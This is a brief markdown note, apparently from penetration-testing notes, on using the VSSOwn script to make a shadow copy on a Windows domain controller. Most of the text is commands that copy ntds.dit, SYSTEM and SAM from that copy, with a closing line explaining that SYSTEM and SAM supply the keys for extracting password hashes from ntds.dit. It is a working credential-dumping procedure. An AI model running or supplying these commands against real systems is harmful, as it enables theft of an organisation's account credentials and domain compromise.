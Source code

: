 ## VSSOwn usage

VSSOwn is used to create a copy of the ntds.dit file. 

``cscript vssown.vbs /status``

``cscript vssown.vbs /start``

``cscript vssown.vbs /create /c``

``copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\ntds\ntds.dit ntdsbackup.dit``

``copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\system32\config\SYSTEM systembackup.bak``

``copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[x]\windows\system32\config\SAM sambackup.bak``

From the above commands, we copied the ntds, SYSTEM and SAM. The SYSTEM and SAM portions will be needed becaue they contain the decryption keys needed to extract the hashes from the 
ntds.dit file. 
